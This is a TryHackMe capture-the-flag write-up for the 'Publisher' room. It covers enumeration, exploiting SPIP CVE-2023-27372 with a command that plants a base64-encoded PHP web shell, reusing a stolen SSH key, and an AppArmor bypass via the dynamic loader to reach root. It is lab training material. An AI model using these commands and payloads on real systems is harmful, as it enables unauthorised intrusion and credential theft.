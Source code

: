 ```yaml
---
title: 'TryHackMe: Publisher'
author: AmcaQt
categories: [TryHackMe]
tags: [Web, Enumeration, RCE, Boot2Root, Directory Fuzzing, Privilege Escalation]
render_with_liquid: false
media_subpath: /images/thm_publisher/
image:
  path: room_card.png
date: 2024-09-10 00:00 +0000
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/publisher>_

## Description

The **Publisher** CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

## Gain a Flag

### Enumaration

#### Nmap Scan

```
┌──(root㉿amca)-[/home/amca]
└─# nmap -A -sC -sV -T5 10.10.125.110
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-28 03:54 EST
Warning: 10.10.125.110 giving up on port because retransmission cap hit (2).
Nmap scan report for publisher.thm (10.10.125.110)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Theres two open ports

- 22/SSH
- 80/HTTP

At `MACHINE_IP` we found a static page about `SPIP CMS`

![Web Page](page.PNG)

#### What is the user flag?

Using [Gobuster](https://www.kali.org/tools/gobuster/) we found one directory leads to another clue `/spip`, that shows installation of SPIP CMS

then using [WhatWeb](https://www.kali.org/tools/whatweb/) will give us another clue, that shows version of SPIP is outdated 

![SPIP Version](1-version.PNG)
_SPIP Version 4.2.0_

Did some research online and found about the [exploit](https://github.com/nuts7/CVE-2023-27372) and PoC of the Vulnerabilities which is `Remote Code Execution`

Use the exploit that found on the github, and procced using this command : ~

```
┌──(root㉿amca)-[/home/amca/CVE-2023-27372]
└─# python3 CVE-2023-27372.py -u http://publisher.thm/spip/ -c 'echo PD89YCRfR0VUW2NtZF1gPz4= | base64 -d > shell.php'
```

> -u SPIP application base URL
> -c Command to Execute

now we got shell on the website to make our job easier
> `http://publisher.thm/spip/shell.php`

![](user.jpg)

### Examining the Filesystem

Notice theres `.ssh` directory inside the `/home/think`, I think maybe we can access using ssh key ?

Downloading the `id_rsa` key and testing it against the SSH service as the `think` user, we get a shell on the host.

```
ssh -i amca_key think@MACHINE_IP
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

nice one, using this much easier

### What is the root flag?

Looking for any binaries with a `SUID` bit set, we found `/usr/sbin/run_container`

Using `strings` i have found that it actually executes a bash script from the `/opt` folder

![](2.jpg)

We have write permissions on `/opt/run_container.sh`

```
think@publisher:~$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10 12:40 /opt/run_container.sh
But if we try to write to it, we get permission denied.
```

Using [Linpeas] to gain more info, that's when we found that `AppArmor` is enabled and our shell is not `bash` but `ash`, then we also see that there is an AppArmor profile for our current shell

![](3.PNG)

Now lets use kernel library to spawn an unconfined bash shell

`/ld-linux-x86–64.so.2 /bin/bash`

When this command is executed, it uses the specified `dynamic linker/loader (ld-linux-x86–64.so.2)` to load the required shared libraries and start the `/bin/bash` shell. This method of invoking the linker/loader directly with a binary is a way to execute a binary by explicitly specifying the dynamic linker/loader to use for that particular binary.

then run the file we found earlier `run_container.sh`, and we're `r00t`

![Root Flag](root.jpg)

## Conclusion

Stress a lil bit, but its a fun room. 

## Happy Hacking

https://i.pinimg.com/originals/f7/8a/03/f78a0369ac804cd9276d73ec37b6b3e8.gif
